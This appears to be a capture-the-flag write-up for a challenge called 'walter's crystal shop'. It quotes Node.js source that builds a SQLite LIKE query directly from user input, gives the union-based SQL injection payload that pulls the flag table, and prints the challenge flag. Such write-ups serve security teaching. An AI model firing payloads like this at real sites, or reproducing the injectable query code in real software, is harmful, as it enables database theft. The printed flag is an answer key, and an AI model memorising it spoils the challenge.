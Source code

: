 # walter's crystal shop

## Solution

Info from the source code: 
* There are two tables exists which are, ```crystals``` and ```flag```.
* Crystals have 3 columns and Flag has one column.

From this info, we can assume that the question wants us to do some "Union SQLi" to get the flag from ```flag``` table. 
```javascript
db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});
```

This lines of codes proves that there is vulnerability to do some UNION SQL ATTACK. There is no validation on the name variable query.
```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

```

Now we can crete the payload for UNION SQL ATTACK. Since the crystals table needs 3 columns so we need to add NULL columns so the SELECT statement is valid.
```
' UNION SELECT flag,null,null from flag--
```

## Flag
The flag for this challenge is ```nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}```
